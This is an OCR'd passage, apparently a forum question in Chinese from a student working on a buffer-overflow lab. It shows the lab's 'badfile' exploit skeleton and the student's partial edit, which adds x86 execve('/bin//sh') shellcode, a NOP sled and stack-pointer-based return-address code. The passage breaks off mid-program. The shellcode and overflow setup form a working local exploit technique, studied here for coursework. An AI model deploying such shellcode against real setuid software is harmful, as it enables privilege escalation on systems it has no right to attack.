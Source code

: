 ```
;
void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;
    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);
/* You need to fill the buffer with appropriate contents here */
/* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
} 
```

我只能修改第二个。以下是我所做的更改：

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#define DEFAULT_OFFSET 350 

char shellcode[]=
"\x31\xc0"              /* xorl    %eax,%eax              */
"\x50"                  /* pushl   %eax                   */
"\x68""//sh"            /* pushl   $0x68732f2f            */
"\x68""/bin"            /* pushl   $0x6e69622f            */
"\x89\xe3"              /* movl    %esp,%ebx              */
"\x50"                  /* pushl   %eax                   */
"\x53"                  /* pushl   %ebx                   */
"\x89\xe1"              /* movl    %esp,%ecx              */
"\x99"                  /* cdql                           */
"\xb0\x0b"              /* movb    $0x0b,%al              */    
"\xcd\x80"              /* int     $0x80                  */

unsigned long get_sp(void)
{
    __asm__("movl %esp,%eax");
}

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;
    char *ptr;
    long *a_ptr,ret;

    int offset = DEFAULT_OFFSET;
    int codeSize = sizeof(shellcode);
    int buffSize = sizeof(buffer);

    if(argc > 1) offset = atoi(argv[1]); //allows for command line input

    ptr=buffer;
    a_ptr = (long *) ptr;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(buffer, 0x90, buffSize);

//----------------------BEGIN FILL BUFFER----------------------\\

    ret = get_sp()+offset;
    printf("Return Address: 0x%x\n",get_sp());
```